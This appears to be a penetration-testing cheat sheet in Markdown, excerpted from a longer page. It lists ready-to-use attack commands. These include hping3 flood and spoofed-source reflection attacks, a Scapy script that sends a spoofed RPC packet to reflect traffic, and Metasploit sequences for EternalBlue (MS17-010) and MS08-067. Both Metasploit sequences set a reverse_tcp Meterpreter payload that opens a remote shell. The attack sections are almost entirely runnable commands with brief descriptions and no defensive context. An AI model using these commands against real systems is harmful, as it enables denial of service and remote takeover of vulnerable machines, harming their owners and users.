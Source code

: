 ### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Reflection Attack Exploit

*   **Tool:** \[\[Custom Scripts]], \[\[Scapy]]

    ```python
    from scapy.all import *
    send(IP(src="<spoofed_ip>", dst="<target_ip>")/TCP(dport=593)/Raw(load="RPC Request"))
    ```
* **Description:** Exploits the RPC HTTP Endpoint Mapper to reflect and amplify traffic towards a spoofed victim, causing network disruption.

### Exploits

#### MS17-010 (EternalBlue)

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in Microsoft's implementation of the SMB protocol that could allow remote code execution. This exploit was used in the WannaCry ransomware attack.

#### MS08-067 (Conficker Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the Server service's handling of RPC requests, allowing for remote code execution.
